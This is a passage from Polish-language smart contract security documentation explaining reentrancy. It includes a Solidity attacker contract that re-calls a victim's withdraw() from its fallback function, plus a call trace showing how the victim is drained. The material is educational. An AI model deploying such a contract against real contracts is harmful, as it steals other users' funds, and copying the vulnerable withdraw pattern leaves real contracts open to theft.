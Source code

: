 Aby zezwolić użytkownikowi na wycofanie ETH, który wcześniej przechowywał w kontrakcie, funkcja ta

1. Odczytuje, ile salda ma użytkownik
2. Wysyła mu kwotę tego salda w ETH
3. Resetuje saldo do do 0, więc nie może ponownie wypłacić swojego salda.

W przypadku wywołania ze zwykłego konta (takiego jak własne konto MetaMask), działa to zgodnie z oczekiwaniami: msg.sender.call.value() po prostu wysyła ETH z twojego konta. Inteligentne kontrakty mogą jednak również wywoływać połączenia. Jeśli niestandardowy, złośliwy kontrakt jest tym, który wywołuje `withdraw()`, msg.sender.call.value() nie tylko wyśle `amount` w ETH, ale będzie także niejawnie wywoływać kontrakt, aby rozpocząć wykonywanie kodu. Wyobraź sobie, że ten złośliwy kontrakt:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Wywołanie Attacker.beginAttack() rozpocznie cykl, który wygląda następująco:

```
0.) Atakujący EOA wywołuje Attacker.beginAttack() z 1 ETH
0.) Attacker.beginAttack() deponuje 1 ETH na rzecz ofiary

  1.) Atakujący -> Victim.withdraw()
  1.) Ofiara odczytuje balanceOf[msg.sender]
  1.) Ofiara wysyła ETH do atakującego (który wykonuje domyślną funkcję)
    2.) Atakujący -> Victim.withdraw()
    2.) Ofiara odczytuje balanceOf[msg.sender]
    2.) Ofiara wysyła ETH do atakującego (który wykonuje domyślną funkcję)
      3.) Atakujący -> Victim.withdraw()
  3.) Ofiara odczytuje balanceOf[msg.sender]
      3.) Ofiara wysyła ETH do atakującego (który wykonuje domyślną funkcję)
    4.) Atakujący nie ma już wystarczającej ilości gazu, zwraca bez ponownego wywołania
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (już było 0)
  1.) balances[msg.sender] = 0; (już było 0)
```

Wywołanie Attacker.beginAttack z 1 ETH spowoduje atak ponownego wejścia na ofiarę, wycofanie więcej ETH niż zostało dostarczone (pobrane z sald innych użytkowników, powodując, że kontrakt ofiary stanie się niewystarczająco zabezpieczony)

### Jak radzić sobie z wielobieżnością (niewłaściwy sposób) {#how-to-deal-with-re-entrancy-the-wrong-way}
